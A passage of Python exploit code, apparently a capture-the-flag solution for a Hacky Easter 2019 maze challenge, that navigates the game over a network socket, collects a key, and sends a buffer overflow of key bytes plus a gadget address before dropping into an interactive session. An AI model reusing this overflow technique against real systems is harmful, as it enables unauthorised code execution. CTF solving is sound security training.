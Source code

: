 ```python

  nc.writeline('search')
  search_result = nc.recvuntil('>').replace("\x1b[", "").split("\n")[1]

  if (search_result not in ["There is nothing interesting here.",
                       "You found a rusty nail.",
                       "Ugh! There is a skeleton!",
                       "Ugh! There is a spider!",
                       "You found a map, but unfortunately someone else has already torn out a piece.",
                       "You found an arrow stuck in the wall.",
                       "You found a broken key, looks like it won't work anymore.",
                       "Ugh! There is a giant rat!",
                       "There is a message scratched into the wall 'Hacky Easter 2019, by Darkice'."]):

     if search_result.startswith("You found a key!"):
        nc.writeline('pick up')

        extractedKey = nc.recvuntil('>').replace("\x1b[", "")

        key = extractedKey.split("You pick up the key: ")[1].split(";")[0]
        haveKey = True

     elif search_result.startswith("You found a locked chest!"):
        if not haveKey:
           print 'Found a chest but don\'t have a key...'
           break

        nc.writeline('open')
        nc.recvuntil('>')

        sentKey = key[:32].encode() + p64(gadget_address) 
        nc.writeline(sentKey)

        nc.writeline('')
        nc.writelineafter('>', '0')
        nc.interactive()

  if canGoUp:
    nextPoint = (currentPoint[0], currentPoint[1] + 1)

    if nextPoint not in visited:
       currentPoint = nextPoint
       visited.append(currentPoint)
       moves.append((0, 1))

       nc.writeline('go north')
       continue

  if canGoDown:
    nextPoint = (currentPoint[0], currentPoint[1] - 1)

    if nextPoint not in visited:
       currentPoint = nextPoint
       visited.append(currentPoint)
       moves.append((0, -1))

       nc.writeline('go south')
       continue

  if canGoRight:
    nextPoint = (currentPoint[0] + 1, currentPoint[1])
```